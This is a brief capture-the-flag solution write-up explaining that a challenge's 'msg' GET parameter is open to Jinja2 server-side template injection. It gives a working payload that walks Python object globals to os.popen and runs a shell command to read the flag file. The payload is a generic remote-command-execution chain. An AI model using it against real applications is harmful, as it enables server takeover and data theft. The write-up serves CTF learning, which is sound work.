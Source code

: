 # Solution

This challenge has SSTI (Server Side Template Injection) vulnerability.
The msg GET parameter is not sanitized and can be used to inject Jinja2 template code.
The following payload can be used to read the flag:

```py
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag*').read() }}
```